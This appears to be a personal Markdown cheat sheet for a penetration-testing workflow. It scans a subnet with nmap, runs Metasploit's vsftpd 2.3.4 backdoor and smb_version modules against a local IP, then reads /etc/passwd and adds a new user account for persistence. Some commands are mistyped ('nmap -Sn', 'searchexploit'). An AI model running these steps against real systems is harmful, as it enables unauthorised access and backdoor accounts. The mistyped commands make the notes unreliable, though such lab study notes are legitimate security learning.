 ### Metasploite and nmap WorkFlow

1. Step-1: Search the alive devices
`nmap -Sn 192.168.0.1/24`

2. Step-2: Scan the Port and their version
`nmap -Pn -sV <targetIP>`

> [copy the backdated versions]

3. Step-3: Open metasploite framework
`msfconsole`

4. Step-4: search that particular versions exploits [if version is exactly given]
`search vsftpd 2.3.4`

> [exploits will be shown in a table called (matching madules)]
> [copy the exploits or remember the number of that exploit]

> [if any how exact version is not found. just use the vsftpd. all versions exploitations will be shown. Recommended "Excellent"]
[Follow below. if all versions exploitation list is huge]

5. Step-5: use the exploit
`use exploit/unix/ftp/vsftpd_234_backdoor`

6. Step-6: See the required options for that exploit
`show options`

7. Step-7: Set the Target (Configure)

`set RHOSTS 192.168.0.101`
`set RPORT 21`
> [if `show options` say no in the table then no need to set]
> [if port is given already no need to set]

8. Step-8: Check configure again 

`show options`

9. Step-9: Finally Attack the machine, after all configurations

`exploit`

> [if session is created. the successfully, we gained the access]
> [now we can do anything]

10. Step-10: Suppose creating finding and creating a user in the machine
[if meterpreter write: shell]

`hostname`
`whoami`                             [checking loged in user]
`cat /etc/passwd`                    [check users]
`useradd ekhtiar` `passwd ekhtiar`   [creating user]


10. Step-11: loging out
`exit`
------------------------------------------------------------------------------------------------------------------





------------------------------------------------------------------------------------------------------------------
### if Version is not given (nmap can't always find the exact version. Metasploite Framework can find that)
[find the version]

4. Step-4: search the version finding exploit
`search smb_version`

> [for http, http_version]

5. Step-5: use the exploit

`use auxiliary/scanner/smb/smb_version`

6. Step-6: Set target (Configuration)

`set RHOSTS 192.168.0.101`
`set RPORT 139`

7. Step-7: run the version finding exploitation
`run`

> [use the version and continue with the main exploitation]
-------------------------------------------------------------------------------------------------------------------


-------------------------------------------------------------------------------------------------------------------
### if exact version not found. and thousands of verions exploitation exist.
[narrow down the list] [http running in apache server] [find php version of that apache server]

-----in Metasploite
`search type:exploit platform:unix`    [platworm:windows for windows]

[if still large list. use different tools to find exploits]

----in searchexploit

`searchexploit apache 2.2.8 | grep php`

[small list should be shown]
-------------------------------------------------------------------------------------------------------------------



